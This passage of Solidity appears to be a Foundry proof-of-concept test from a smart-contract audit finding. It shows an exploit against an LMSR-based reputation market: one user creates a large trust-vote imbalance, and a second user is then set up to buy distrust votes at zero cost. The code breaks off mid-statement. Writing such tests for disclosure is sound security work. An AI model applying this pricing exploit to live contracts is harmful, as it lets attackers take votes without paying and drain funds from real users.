 ```solidity
        console2.log("Market created with:");
        console2.log("- Liquidity Parameter:", LIQUIDITY_PARAMETER);
        console2.log("- Base Price:", BASE_PRICE);
        console2.log("- Initial Balance:", address(proxyReputationMarket).balance);
    }

    function test_LMSRExploit() public {
        console2.log("\n=== Starting Exploit Test ===");
        
        // 1: First untrustBuyingUser creates large imbalance with trust votes
        console2.log("\n1: Creating vote imbalance");
        uint256 largeVoteAmount = 98_000;
        vm.startPrank(trustBuyingUser);
        deal(trustBuyingUser, 975 ether);
        
        // Log pre-purchase simulation
        (bool success, bytes memory data) = address(proxyReputationMarket).call(
            abi.encodeWithSignature("simulateBuy(uint256,bool,uint256)", MARKET_ID, true, largeVoteAmount)
        );
        require(success, "Simulation failed");
        (
            uint256 cost,
            uint256 protocolFee,
            uint256 donation,
            uint256 total,
            uint256 price
        ) = abi.decode(data, (uint256, uint256, uint256, uint256, uint256));
        
        console2.log("Large vote purchase simulation:");
        console2.log("- Base Cost:", cost);
        console2.log("- Protocol Fee:", protocolFee);
        console2.log("- Total Cost:", total);
        console2.log("- New Vote Price:", price);

        // Execute large vote purchase
        (success, ) = address(proxyReputationMarket).call{value: 975 ether}(
            abi.encodeWithSignature("buyVotes(uint256,bool,uint256,uint256)", MARKET_ID, true, largeVoteAmount, 0)
        );
        require(success, "Large vote purchase failed");
        
        // Log market state after large purchase
        (, data) = address(proxyReputationMarket).call(
            abi.encodeWithSignature("getMarket(uint256)", MARKET_ID)
        );
        (ReputationMarket.MarketInfo memory marketInfo) = abi.decode(data, (ReputationMarket.MarketInfo));
        console2.log("\nMarket state after large difference in votes:");
        console2.log("- Trust Votes:", marketInfo.trustVotes);
        console2.log("- Distrust Votes:", marketInfo.distrustVotes);
        vm.stopPrank();

        // 2: Second untrustBuyingUser exploits zero-cost votes
        console2.log("\n2: Exploiting zero-cost votes");
        uint256 exploitVoteAmount = 55_000;
        
        // Simulate exploit purchase
        (, data) = address(proxyReputationMarket).call(
            abi.encodeWithSignature("simulateBuy(uint256,bool,uint256)", MARKET_ID, false, exploitVoteAmount)
        );
        (
```